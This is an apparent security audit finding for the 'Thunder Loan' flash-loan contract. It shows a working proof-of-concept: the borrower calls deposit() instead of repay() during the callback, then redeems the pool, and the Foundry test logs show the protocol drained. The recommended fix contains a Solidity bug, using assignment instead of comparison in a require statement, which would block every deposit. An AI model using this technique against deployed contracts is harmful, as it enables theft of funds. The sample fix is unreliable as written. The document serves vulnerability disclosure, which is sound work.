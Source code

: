 ## [High] Lack of Access Control allows malicious actor to steal funds.

### Severity

High Risk

### Date Modified

Nov 6th, 2023

### Summary

Usually Flash Loans protocols has other options like deposit to earn fees or speculate with token prices. This could lead to vulnerabilities if it is not able to control who and when a user/contract calls these functions.

In this case, any user could call the `deposit()` function at any time. In addition, the way the `flashLoan()` function controls that the loan is repaired is by using this comparative:

Token Balance at the end of the flash Loan > Token Balance at the beginning of the flash Loan (because the fees).

The way that a malicious actor could trick the protocol is calling the `deposit()` function instead the `repair()` fucntion in the callback contract.

1. The flash loan thinks that is repaid because the Token´s current balance is higher than the previous balance.
2. The user has deposited the entire balance of the contract as his own deposit so, now, it is possible to redeem to their EOA account.

### Vulnerability Details (PoC)

1. Add to `IThunderLoan.sol` the `deposit()` and `redeem()` functions

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

interface IThunderLoan {
    function repay(address token, uint256 amount) external;
    function deposit(IERC20 token, uint256 amount) external;
    function redeem(IERC20 token, uint256 amountOfAssetToken) external;
}
```

2. In the mock contract `MockFlashLoanReceiver.sol`, function `executeOperation()`, change the called function `repay()` to the function `deposit()`. We will make a deposit instead of a repayment and the flash loan will be fooled.

Remove this:

```
IThunderLoan(s_thunderLoan).repay(token, amount + fee);
```

Add this

```
IThunderLoan(s_thunderLoan).deposit(IERC20(token), amount + fee);
```

3. Create into `MockFlashLoanReceiver.sol` a `redeem()` function:

```
function redeem(IERC20 _token, uint256 _amountOfAssetToken) external {
        IThunderLoan(s_thunderLoan).redeem(_token, _amountOfAssetToken);
        IERC20(_token).transfer(msg.sender, IERC20(_token).balanceOf(address(this)));
    }
```

4. Time to create the the test (attack):

```
function test_FlashLoanCouldBeFooledUsingDeposit() external setAllowedToken hasDeposits {
        AssetToken asset = thunderLoan.getAssetFromToken(tokenA);

        // 1.- Mint tokenA small amount for fees:
        tokenA.mint(address(mockFlashLoanReceiver), AMOUNT);

        /* LOGS */
        console.log("*** LOGS BEFORE OPERATIONS ***");
        console.log("user balance:         ", tokenA.balanceOf(user));
        console.log("mockcontract balance:", tokenA.balanceOf(address(mockFlashLoanReceiver)) / 1e18);
        console.log("protocol balance:  ", tokenA.balanceOf(address(asset)) / 1e18);

        // 2.- Store the current protocol amount to steal:
        uint256 protocolTotalBalance = tokenA.balanceOf(address(asset));
        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, protocolTotalBalance);

        // 3.- Execute the attack:
        vm.startPrank(user);
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, protocolTotalBalance, "");
        uint256 mockFlashLoanReceiverBalance = asset.balanceOf(address(mockFlashLoanReceiver));
        mockFlashLoanReceiver.redeem(tokenA, mockFlashLoanReceiverBalance - calculatedFee);
        vm.stopPrank();

        /* LOGS */
        console.log("*** LOGS AFTER OPERATIONS ***");
        console.log("user balance:      ", tokenA.balanceOf(user) / 1e18);
        console.log("protocol balance:     ", tokenA.balanceOf(address(asset)) / 1e18);

        // 4.- Check:
        // User current balance aprox to protocolTotalBalance + AMOUNT - fees:
        assertGt(tokenA.balanceOf(address(user)), protocolTotalBalance);
        // Protocol balance aprox to 0 + fees:
        assertEq(tokenA.balanceOf(address(asset)) / 1e18, 1);
    }
```

```
➜  2023-11-Thunder-Loan git:(main) ✗ forge test --mt test_FlashLoanCouldBeFooledUsingDeposit -vv
[⠒] Compiling...
[⠔] Compiling 1 files with 0.8.20
[⠒] Solc 0.8.20 finished in 1.38s
Compiler run successful!

Running 1 test for test/unit/ThunderLoanTest.t.sol:ThunderLoanTest
[PASS] test_FlashLoanCouldBeFooledUsingDeposit() (gas: 1349520)
Logs:
  *** LOGS BEFORE OPERATIONS ***
  user balance:          0
  mockcontract balance: 10
  protocol balance:   1000
  *** LOGS AFTER OPERATIONS ***
  user balance:       1008
  protocol balance:      1

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.41ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
➜  2023-11-Thunder-Loan git:(main) ✗
```

### Impact

A malicious user could steal all of the protocol's funds.

### Tools Used

Foundry.

### Recommendations

There are several ways to protect the protocol with different access control policies:

1. Use a struct or mapping to flag/unflag flash loan receiver contracts, denying access during the flashloan transaction.
2. Usually Flash Loan receiver contracts are just that, they have been used exclusively for the Flash Loan, they do not need to access any other function. The protocol could use the Open Zeppelin Access Control library to classify the different types of users/contracts.

As an example, we can control the issue with just one variable:

1. Add to ThuderLoan.sol the variable:

```
bool public blocked;
```

2. Control de `deposit()` with a requiere:

```
function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
    require(blocked = false, "deposit is blocked");

    /**** EXECUTE THE DEPOSIT AS IS PROGRAMMED ******/
    }
```

3. Finally, update to true/flase during the `flashLoan()`:

```
function flashloan(address receiverAddress, IERC20 token, uint256 amount, bytes calldata params) external {
        blocked = true;

        /**** EXECUTE THE FLASH LOAN AS IS PROGRAMMED ******/

        blocked = false;
    }

```

We can execute the same attack but now without success:

```
➜  2023-11-Thunder-Loan git:(main) ✗ forge test --mt test_FlashLoanCouldBeFooledUsingDeposit -vv
[⠒] Compiling...
[⠃] Compiling 7 files with 0.8.20
[⠒] Solc 0.8.20 finished in 1.87s
Compiler run successful!

Running 1 test for test/unit/ThunderLoanTest.t.sol:ThunderLoanTest
[FAIL. Reason: deposit is blocked] test_FlashLoanCouldBeFooledUsingDeposit() (gas: 1094786)
Test result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 1.45ms

Ran 1 test suites: 0 tests passed, 1 failed, 0 skipped (1 total tests)

Failing tests:
Encountered 1 failing test in test/unit/ThunderLoanTest.t.sol:ThunderLoanTest
[FAIL. Reason: deposit is blocked] test_FlashLoanCouldBeFooledUsingDeposit() (gas: 1094786)

Encountered a total of 1 failing tests, 0 tests succeeded
➜  2023-11-Thunder-Loan git:(main) ✗
```

